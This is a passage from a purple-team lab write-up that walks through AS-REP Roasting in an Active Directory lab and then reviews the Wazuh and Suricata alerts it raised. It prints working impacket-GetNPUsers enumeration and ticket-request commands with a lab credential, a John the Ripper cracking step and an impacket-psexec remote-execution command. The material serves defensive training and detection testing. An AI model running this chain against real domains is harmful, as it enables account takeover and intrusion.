

_Figure 4.5 - Details of the alert concerning the suspicious service (2) - client workstation agent_

> 💡 Want to contribute?
> This project is open source and open to all contributions! Whether it’s for:
>
> - Proposing new features.
> - Correcting or enriching documentation.
> - Strengthening detection (Suricata rules, Wazuh integrations).
> - Improving scenarios (adding attack/defense techniques).
>
> Find the project on Github (https://github.com/0xMR007/Lab4PurpleSec) and don’t hesitate to open an _issue_ or a _pull request_!
> ⭐ Each **star on the repository** also encourages its development.
>
> _Together, let’s make **Lab4PurpleSec** an even more powerful tool for the cyber community!_

---

## V. Phase 4 - AS-REP Roasting: Exploitation of an account without pre-authentication

This section describes how to exploit a Kerberos attack technique called **AS-REP Roasting** to compromise a user account configured without pre-authentication. This section will cover the **vulnerable account enumeration steps**, **AS-REP ticket recovery**, **offline cracking**, and **exploitation of obtained credentials**.

This attack demonstrates that a simple configuration error can lead to complete system compromise.

### Attacker objective

Obtain alternative privileged access via a user account misconfiguration.

### Actions performed

- Identification of accounts with Kerberos pre-authentication disabled.
- Recovery of an offline exploitable AS-REP ticket.
- Offline cracking of the AS-REP ticket with _JohnTheRipper_ or _Hashcat_.
- Exploitation of obtained credentials to obtain system access.

### Demonstration

Command used:

```bash
impacket-GetNPUsers mini.lab/bob:superman -dc-ip 192.168.10.30
```

Result obtained:


_Figure 4.6 - Enumeration of users with Kerberos pre-auth disabled - `impacket-GetNPUsers`_

Commands used:

```bash
echo 'rozamond.rhea' > user.txt

impacket-GetNPUsers mini.lab/bob:superman -request -dc-ip 192.168.10.30 -usersfile user.txt -format hashcat -outputfile AS-REP.hash
```

Result obtained:


_Figure 4.7 - Recovery of a Kerberos AS-REP ticket - `impacket-GetNPUsers`_

Now, we need to crack the recovered AS-REP ticket. For this, we can use _JohnTheRipper_ or _Hashcat_. In this example, we use _JohnTheRipper_ with a default wordlist:

Command used:

```bash
john AS-REP.hash
```

Result obtained:


_Figure 4.8 - Cracking of the Kerberos AS-REP ticket - `impacket-GetNPUsers`_

### Results obtained

- List of users with Kerberos pre-auth disabled
- Recovery of a Kerberos AS-REP ticket
- Cracking of the AS-REP ticket.
- Obtaining credentials of the targeted account (here `rozamond.rhea`).
- Remote access with privilege escalation.

### Impact in the attack chain

This attack demonstrates that a simple Kerberos configuration error can lead to complete system compromise.

Compromise performed on the client workstation with `psexec`:

Command used:

```bash
impacket-psexec rozamond.rhea@minilab.ws01
```


_Figure 4.9 - Complete compromise of the domain client workstation - `impacket-psexec`_

### Blue Team analysis

<div align="center">
    
</div>

- Few or no alerts on the DC side during the Kerberos phase.
- Significant alerts generated on the client workstation during remote execution via `psexec`.
- A Suricata alert was triggered at the client workstation compromise



_Figure 5.0 - Wazuh alerts after client workstation compromise - client workstation agent_



_Figure 5.1 - Suricata Wazuh alert after client workstation compromise - client workstation agent_

---

## VI. Scenario 2 conclusion

This scenario allowed us to **simulate a realistic Active Directory attack** from the LAN network, by exploiting classic configuration weaknesses (service accounts with SPN, Kerberos pre-authentication disabled). Thanks to this situation, we were able to:

- ✅ **Validate the attack chain**: From network recon to complete system compromise via Kerberoasting and AS-REP Roasting.
- ✅ **Analyze traces left** by the attacker: Suricata alerts (network scans), Wazuh alerts (anonymous enumeration, remote execution), and Windows events revealed **key indicators** (anonymous logon, service creation, suspicious authentications), but also **limitations** in detection (enumeration, suspicious Kerberos requests poorly detected).
- ✅ **Identify improvement areas**: Strengthening Suricata rules for Active Directory attacks, improving detection of suspicious Kerberos requests, and event correlation for finer analysis.

### **Contribution & feedback**

This scenario is an **evolving base**! If you identify **improvements** (detection rules, attack techniques, tool integrations), don’t hesitate to:

- **Open an** _issue_ **or a** _pull request_ **on the GitHub repository** (https://github.com/0xMR007/Lab4PurpleSec).
- **Share your feedback** online!

**Final objective**:  
Transform _Lab4PurpleSec_ into a **complete Purple Team training environment**, where each scenario allows **testing and strengthening** both offensive _and_ defensive capabilities.
